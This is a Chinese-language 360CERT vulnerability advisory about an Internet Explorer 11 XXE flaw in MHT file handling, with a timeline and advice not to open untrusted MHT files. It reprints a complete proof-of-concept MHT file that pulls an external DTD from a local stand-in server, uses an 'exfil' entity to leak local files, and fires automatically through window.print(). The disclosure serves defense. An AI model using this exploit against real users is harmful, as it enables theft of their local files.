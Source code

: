 ```yaml
---
id: 8d82390a2196ec4b0ca20fc0cf9b51b4
title: Internet Explorer XXE 漏洞预警
tags: 
  - 安全资讯
  - 360CERT
---
```


# Internet Explorer XXE 漏洞预警

0x00 漏洞背景
---------


北京时间4月11日，国外安全研究员 John Page 公开披露 Internet Explorer 11 XXE漏洞，成功利用该漏洞将导致本地文件泄露。


微软得知漏洞后，给出"暂时不予修复"的处理结果。鉴于漏洞真实存在，且具有一定危害；360CERT发布预警公告，提醒广大用户，不要轻易打开MHT类型的文件。


0x01 漏洞详情
---------


漏洞源于Internet Explorer 对MHT文件处理不当，如果用户在本地打开特制的.MHT文件，则Internet Explorer易受XML外部实体攻击。


在Windows上，MHT文件默认由Internet Explorer打开。漏洞触发需要CTRL + K（重复选项卡），“打印预览”或“打印”等用户操作，但是可以通过嵌入`<script>window.print();</script>`脚本自动触发，无需用户进行交互。


漏洞利用代码如下：



```
From:
Subject:
Date:
MIME-Version: 1.0
Content-Type: multipart/related; type="text/html";
    boundary="=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001"
This is a multi-part message in MIME format.

--=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001
Content-Type: text/html; charset="UTF-8"
Content-Location: main.htm
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/transitional.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>MSIE XXE 0day</title>
</head>
<body>
<xml>
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://localhost:8000/datatears.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
<r>&exfil;</r>
<r>&exfil;</r>
<r>&exfil;</r>
</xml>
<script>window.print();</script>
<table cellpadding="0" cellspacing="0" border="0">
<tr>
<td class="contentcell-width">
<h1>MSIE XML External Entity 0day PoC.</h1>
<h3>Discovery: hyp3rlinx</h3>
<h3>ApparitionSec</h3>
</td>
</tr>
</table>
</body>
</html>
--=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001--

```
0x02 漏洞影响
---------


漏洞影响win7、win10、server 2012 R2 平台下最新版本的Internet Explorer Browser v11。


漏洞验证视频：<https://youtu.be/fbLNbCjgJeY>


0x03 安全建议
---------


微软得知漏洞后，给出“暂时不予处理”的决定。


鉴于漏洞真实存在且具有一定危害，360CERT建议广大用户，不要轻易打开MHT文件。包括但不限于电子邮件，即时通讯软件或者其他渠道获得的MHT文件。


0x04 时间线
--------


**2019-04-11** 漏洞披露


**2019-04-14** 360CERT对漏洞进行评估


**2019-04-15** 360CERT发布预警公告


0x05 参考链接
---------


1. [漏洞披露](http://hyp3rlinx.altervista.org/advisories/MICROSOFT-INTERNET-EXPLORER-v11-XML-EXTERNAL-ENTITY-INJECTION-0DAY.txt)


